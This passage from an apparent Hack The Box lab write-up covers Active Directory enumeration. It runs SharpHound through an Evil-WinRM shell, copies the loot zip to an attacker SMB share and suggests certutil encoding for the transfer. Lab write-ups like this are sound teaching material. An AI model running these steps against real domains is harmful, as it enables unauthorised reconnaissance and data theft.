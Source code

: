 1. On our attacker machine, we have to download [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe):

    ```bash
    $ wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.exe
    ```

2. Then we can transfer it the same way we did for **winPEAS** (using **impacket** `smbserver.py`)

3. After executing it we'll have a zip file that we can transfer once again with our SMB server and then upload it to the **BloodHound** web app:

    ```powershell
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound.exe
    ----------------------------------------------
    Initializing SharpHound at 5:34 AM on 9/6/2021
    ----------------------------------------------

    Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

    [+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=htb,DC=local
    [+] Cache File not Found: 0 Objects in cache

    [+] Pre-populating Domain Controller SIDS
    Status: 0 objects finished (+0) -- Using 21 MB RAM
    Status: 123 objects finished (+123 61.5)/s -- Using 28 MB RAM
    Enumeration finished in 00:00:02.3907594
    Compressing data to .\20210906053417_BloodHound.zip
    You can upload this file directly to the UI

    SharpHound Enumeration Completed at 5:34 AM on 9/6/2021! Happy Graphing!
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> copy .\20210906053417_BloodHound.zip \\10.10.14.12\kali\20210906053417_BloodHound.zip
    ```

    > Another way to transfer the zip file is to encode it in base64 using `certutil -encode 20210906053417_BloodHound.zip loot.txt`

4. In order to run **BloodHound** on our attacker machine, we have to run these commands:

```bash
# Open a terminal and type the following:
$ neo4j console # default credentials -> neo4j:neo4j
# In another terminal, open bloodhound:
$ bloodhound
```
